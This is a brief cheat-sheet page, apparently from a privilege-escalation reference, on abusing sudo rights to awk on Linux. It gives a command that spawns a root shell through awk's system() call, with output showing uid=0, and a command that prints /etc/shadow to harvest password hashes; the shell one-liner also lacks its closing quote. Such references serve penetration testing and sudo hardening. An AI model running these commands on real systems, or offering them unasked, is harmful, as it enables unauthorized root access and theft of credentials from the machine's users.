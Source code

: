 # Awk

## Spawn Shell

```
user@debian:~$ sudo awk 'BEGIN {system("/bin/bash")}

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Harvest Credentials

```
user@debian:~$ sudo awk '{print $0}' /etc/shadow
```